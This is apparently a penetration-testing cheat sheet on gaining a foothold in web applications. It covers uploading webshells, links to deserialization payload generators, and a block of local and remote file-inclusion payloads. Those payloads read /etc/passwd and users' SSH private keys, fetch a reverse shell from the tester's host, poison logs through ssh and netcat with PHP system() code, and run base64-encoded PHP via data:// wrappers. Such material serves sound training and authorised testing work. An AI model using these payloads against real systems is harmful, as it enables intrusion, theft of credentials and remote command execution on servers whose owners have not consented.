 ### Common Web App vuln
If cannot locate a public exploit, you may need other means for getting the initial foothold.
### Arbitrary File Upload
If the site has a file upload function, and you know where is the 
upload directory (maybe in /uploads).

Locate your payload in /usr/share/webshells/, upload the corresponding script file.
Then navigate to http://IP/uploads/webshell.php. `webshell.php` is just an example, you need to navigate to the corresponding uploaded file.
If you are using payload like simple-backdoor.php, which does not do automatic payload execution and wait for user input
, you will need to navigate to http://IP/uploads/simple-backdoor.php then append `?cmd=PAYLOAD` or the payload will be received as post form data.
NOTE: If the webserver is running on IIS, use this webshell: /usr/sharewebshells/aspx/cmdasp.aspx

### Insecure deserialization

* [jsonpickle](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)
* [python payload generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)
* [All other langauges payload list](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization)

### File Inclusion to RCE
The log poisoning is not necessary targeting php, it is just a common example being used.
You may need to either upload the web shell that need to be included or inject with other languages.
```bash
#POC LFI, check /etc/passwd
http://IP/?FI=/etc/passwd
#or
http://IP/?FI=../../../../../../../../etc/passwd
#if there is any user has shell login
http://IP/?FI=/home/user/.ssh/id_rsa
# more advanced filter see https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md
# RFI, rare since it is not enabled by default
# Setup a http server contains a reverse shell script
# send request then it will be invoked
http://IP/?FI=http://YOUR_IP/YOUR_PAYLOAD
# access log poisoning with ssh
ssh '<?php system($_GET['cmd']); ?>'@IP 
# access log poisoning with http
nc -nv IP HTTP_PORT
<?php system($_GET['cmd']); ?> #<- then click on return key twice and you should see a bad request respond
# SMTP injection
http://IP/FI?=/var/mail/TARGET_USER&cmd=id
# extension append filter
# data, can execute code directly
http://IP/FI?=data://text/plain,<?php phpinfo(); ?>
http://IP/FI?=data://text/plain,<?php shell_exec("PAYLOAD"); ?>
# data and base64 encode to code execution
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==
http://IP/FI?=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
# base64, can check file source
http://IP/FI?=php://filter/convert.base64-encode/resource=FILE
```
